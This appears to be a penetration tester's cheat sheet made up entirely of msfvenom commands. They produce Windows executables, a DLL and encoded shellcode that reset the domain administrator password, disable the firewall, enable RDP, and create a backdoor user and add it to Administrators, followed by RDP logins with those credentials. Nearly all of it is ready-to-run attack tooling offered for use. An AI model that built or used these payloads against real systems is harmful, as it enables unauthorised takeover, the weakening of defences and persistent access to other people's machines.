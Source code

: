 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### POC:
```bash - kali
msfvenom -p windows/x64/exec CMD="C:\windows\system32\calc.exe" -f exe > poc.exe
```


```bash - kali
msfvenom -p windows/exec CMD="C:\windows\system32\calc.exe" EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0A\x0D\x20"
```

#### Change administrator's password:
```bash - kali
msfvenom -p windows/x64/exec cmd='net user administrator P@s5w0rd123! /domain' -f dll > da.dll
```

#### Disable Firewall:
```bash - kali
msfvenom -p windows/x64/exec CMD="netsh Advfirewall set allprofiles state off" -f exe > disableFirewall.exe
```

```bash - kali
msfvenom -p windows/exec CMD="netsh Advfirewall set allprofiles state off" EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0A\x0D\x20"
```

#### Enable RDP:
```bash - kali
msfvenom -p windows/x64/exec CMD='reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f' -f exe > RDP.exe
```

```bash - kali
msfvenom -p windows/exec CMD='reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f' EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0A\x0D\x20"
```

#### Create new user:
```bash - kali
msfvenom -p windows/x64/exec CMD="net user foobar Pass123 /add" -f exe > newUser.exe
```

```bash - kali
msfvenom -p windows/exec CMD="net user foobar Pass123 /add" EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0A\x0D\x20"
```

#### Adding new user to admin group:
```bash - kali
msfvenom -p windows/x64/exec CMD="net localgroup Administrators foobar /add" -f exe > add2Admin.exe
```

```bash - kali
msfvenom -p windows/exec CMD="net localgroup Administrators foobar /add" EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0A\x0D\x20"
```

```bash - kali
rdesktop -a 16 -z -u foobar -p Pass123 $KALI
```

```bash - kali
xfreerdp /u:foobar /p:Pass123 /cert:ignore /v:$KALI
```

```bash - kali
rdesktop -a 16 -z -u foobar -p Pass123 $TARGET
```

```
xfreerdp /u:foobar /p:Pass123 /cert:ignore /v:$TARGET
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
